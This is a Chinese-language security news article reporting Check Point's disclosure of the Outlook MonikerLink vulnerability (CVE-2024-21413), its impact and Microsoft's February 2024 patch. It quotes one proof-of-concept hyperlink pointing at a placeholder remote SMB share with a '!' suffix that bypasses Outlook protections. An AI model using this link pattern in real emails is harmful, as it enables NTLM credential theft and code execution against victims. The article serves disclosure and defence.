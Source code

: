 #  一个叹号可导致任意代码执行，Windows生态系统也曝“log4j漏洞”   
看雪学苑  看雪学苑   2024-02-18 17:59  
  
据Check Point Research官网博客，其最近一项研究揭示了Microsoft Outlook中的一个重大安全漏洞，允许攻击者在受害者的计算机上执行任意代码。微软已确认此漏洞，并且给予了该漏洞9.8分（满分10分）的CVSS严重性评分。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GGJIO0an76ib1nu9BMqOtFbodU4Nd0xQSpkzDFyBWRhMx7ibqqFen4nmay1Lrxk6zn4FXY1eGzp9DA/640?wx_fmt=png&from=appmsg "")  
  
  
Outlook是Microsoft Office套件中的一个较为流行的桌面应用程序，常被全球组织用于发送接收电子邮件、安排会议等。  
  
  
据了解，Check Point的安全研究员Haifei Li发现了此漏洞（CVE-2024-21413），并将之命名为#MonikerLink。当用户使用易受攻击的Microsoft Outlook版本点击带有恶意链接的电子邮件时，就会导致远程代码执行（RCE），并且该漏洞还使攻击者能够绕过Office文档的受保护视图。通常而言，钓鱼邮件攻击链需要一次双击和一次单击；而当攻击者利用上“Moniker Link”漏洞，那么就只需要一次单击。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GGJIO0an76ib1nu9BMqOtFbkX3RXt2bNCS70RdHaZVjMlx3fMIjBdmE24RfTiaWe3IcwPBq3c2yf9g/640?wx_fmt=png&from=appmsg "")  
  
  
Check Point表示，其已确认这个#MonikerLink漏洞在最新的Windows 10/11 + Microsoft 365（Office 2021）环境中存在。并且其他Office版本/版本也可能受到影响。Check Point认为这是一个被忽视的问题，它在Windows/COM生态系统中存在了几十年——因为它存在于COM API的核心。  
  
  
该漏洞源于Outlook错误地解析特制的超链接以访问COM对象，攻击者能以一个叹号绕过内置的Outlook保护。Check Point Research对此给出了如下示例：  
  
*<a href="file:///\\10.10.111.111\test\test.rtf!something">CLICK ME</a>*  
  
这种类型的超链接绕过了Outlook现有的安全机制，当单击链接时，Outlook将访问“\\10.10.111.111\test\test.rtf”远程资源，而不会引发任何警告或错误。  
  
  
Check Point表示，该漏洞可能允许攻击者执行一系列恶意活动，包括但不限于：  
  
① 数据窃取：访问并窃取存储在受害者系统或其网络中的敏感信息。  
  
② 恶意软件安装：部署恶意软件（如勒索软件、间谍软件、键盘记录器等），以进一步破坏受害者的系统或在网络中传播。  
  
③ 特权提升：利用泄漏的凭据或任意代码执行来获得受害者系统或网络的更高权限，可能导致整个系统或网络被攻破。  
  
④ 身份盗窃：利用窃取的NTLM凭据冒充受害者，进行欺诈活动或访问机密资源。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8GGJIO0an76ib1nu9BMqOtFbAPHL3jAbEyzLnsvAxcgJhBIgViafJgKd1Zfwavia8hZ2CmBw3vBlYRaw/640?wx_fmt=png&from=appmsg "")  
  
  
Check Point已将此问题报告给微软安全响应中心（MSRC），其在2024年2月的“补丁星期二”中修复了此漏洞，强烈建议所有Outlook用户尽快更新。  
  
  
博客链接：  
https://blog.checkpoint.com/research/check-point-research-unveils-critical-monikerlink-vulnerability-in-microsoft-outlook-with-a-9-8-cvss-severity-score/  
  
  
  
编辑：左右里  
  
资讯来源：Check Point Research  
  
转载请注明出处和本文链接  
  
  
**每日涨知识**  
  
间谍软件（Spyware）  
  
间谍软件是一种恶意软件，旨在在受害者不知情的情况下收集和窃取受害者的敏感信息。  
木马，广告软件和系统监视器是不同类型的间谍软件。  
间谍软件监视并存储受害者的 Internet  
活动（击键，浏览器历史记录等），还可以获取用户名，密码，财务信息等。  
它还可以将此  
机密数据发送到网络罪犯操作的服务器，以便可以在随后的网络攻击中使用。  
  
  
﹀  
  
﹀  
  
﹀  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uia4617poZXP96fGaMPXib13V1bJ52yHq9ycD9Zv3WhiaRb2rKV6wghrNa4VyFR2wibBVNfZt3M5IuUiauQGHvxhQrA/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/1UG7KPNHN8E9S6vNnUMRCOictT4PicNGMgHmsIkOvEno4oPVWrhwQCWNRTquZGs2ZLYic8IJTJBjxhWVoCa47V9Rw/640?wx_fmt=gif "")  
  
**球分享**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/1UG7KPNHN8E9S6vNnUMRCOictT4PicNGMgHmsIkOvEno4oPVWrhwQCWNRTquZGs2ZLYic8IJTJBjxhWVoCa47V9Rw/640?wx_fmt=gif "")  
  
**球点赞**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/1UG7KPNHN8E9S6vNnUMRCOictT4PicNGMgHmsIkOvEno4oPVWrhwQCWNRTquZGs2ZLYic8IJTJBjxhWVoCa47V9Rw/640?wx_fmt=gif "")  
  
**球在看**  
  
****  
****  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/1UG7KPNHN8FxuBNT7e2ZEfQZgBuH2GkFjvK4tzErD5Q56kwaEL0N099icLfx1ZvVvqzcRG3oMtIXqUz5T9HYKicA/640?wx_fmt=gif "")  
  
戳  
“阅读原文  
”  
一起来充电吧！  
  
